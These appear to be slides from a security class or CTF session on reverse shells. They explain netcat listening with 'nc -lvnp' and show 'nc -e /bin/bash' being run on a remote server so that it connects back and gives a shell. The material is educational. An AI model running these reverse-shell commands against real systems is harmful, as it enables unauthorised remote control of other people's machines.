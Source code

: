 # Reverse shells

* Typing commands into a webpage is annoying!
* Can we get a shell?
* Normally when you get a shell via SSH, you are the one connecting to a server
* Reverse shells are, as the name implies, the reverse of that process. The server tries to connect to you
* The server has to be able to initiate a connection to you, so you need a public facing server \(eduroam blocks this\)
* SSH in my server if you need to

## nc

* Remember nc\(netcat\)? It can also be used to listen on a port
* nc -lvnp \[PORT\#\]
* * l for listen, v for verbose, n for no DNS, p for port
* Some versions of nc allows you to connect to a port then execute a command
* * nc -e \[PROGRAM\] \[IP\] \[PORT\]
  * Obviously this is a huge security vulnerability
  * Not all nc versions support this
* You can execute “nc -e /bin/bash” on the remote server, “nc -lvnp” on your machine and let it connect to you!

